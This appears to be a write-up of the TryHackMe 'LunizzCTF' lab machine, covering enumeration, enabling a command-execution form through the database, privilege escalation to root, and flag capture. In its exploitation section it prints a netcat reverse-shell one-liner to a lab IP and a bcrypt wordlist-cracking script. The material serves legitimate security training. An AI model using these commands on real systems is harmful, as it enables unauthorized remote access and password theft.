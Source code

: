 ```yaml
---
title: LunizzCTF TryHackMe Writeup
tags: [cipher,tryhackme,linux,mysql,command-injection,bcrypt]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/1.png)

## Scanning
We scan with nmap all ports with versions and scripts, we locate two strings in base64.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/2.png)

#### Decode strings in base64

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/2-2.png)

## Enumeration
Web service on port 80 that shows the default Apache page.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/3.png)

We scan with nmap and the script *"http-enum"*, we will enumerate a directory called *"/hidden/"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/4.png)

We access the directory and find an application that allows us to host image files. (rabbit hole)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/5.png)

We launch the **dirsearch** tool and list a new directory.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/6.png)

We access, we see that we have a form where it seems that it is possible to execute commands... But no, it does not work.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/7.png)

We run **dirsearch** again, this time we will try to enumerate files by extensions. We see that we list a file named *"instructions.txt"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/8.png)

We access the file and find some credentials.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/9.png)

We use the credentials to connect to the DB, remember that the application option to execute commands was set to *"0"*, we set it to *"1"* and save.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/10.png)

We reload the page, check that Mode is now set to *"1"* and the **"ls"** command runs perfectly and prints the files.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/11.png)

## Exploitation
We set up a listening netcat on our kali and run our payload for a reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
#### Revers shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/12.png)

Doing reconnaissance, we find a file called *"bcrypt_encryption.py"*, in the Python code we see that it prints a hash with salted, also a commented hash in the script.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/13.png)

Examining the *python* script, I split the hash into two pieces (hashed password + salt), cross-referenced it with the wordlist **rockyou** and checked if the hash matched to find out the clear password. 

#### Python script code
```python
import bcrypt
import base64

salt   = b'$2XXXXXXXXXXXXXXXXXXXX'
hashPass = b'$2XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'

with open("rockyou.txt","r") as f:
	for word in f.readlines():
		passw = word.strip().encode('ascii', 'ignore')
		b64str = base64.b64encode(passw)
		hashAndSalt = bcrypt.hashpw(b64str, salt)
		#print(hashAndSalt)
		#print(passw)

		if hashPass == hashAndSalt:
			print("[+] Password Found!!!: %s" % passw)
			break
```

#### Execute decrypt python script

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/14.png)

We authenticate as the user *"adam"* and see several interesting files that mention the user *"mason"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/15.png)

We found a **hidden directory** with this message, apparently it is a hint to list the password for the user *"mason"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/16.png)

We access the URL, there we see an image that will give us the clue without much difficulty. *(I will not show the image so as not to make spoilers)*

We use the password on the user *"mason"* and read the flag of *"user.txt"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/17.png)


## Privilege Escalation

We use the script **linpeas.sh** and list that there is a web service up internally on *port 8080*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/18.png)

We use curl on the website, we see an application with three options, I used the *"passwd"* option and the password of the user *"mason"* which modified the password of the user *"root"*. After that, I just had to log in as root and read the flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/19.png)





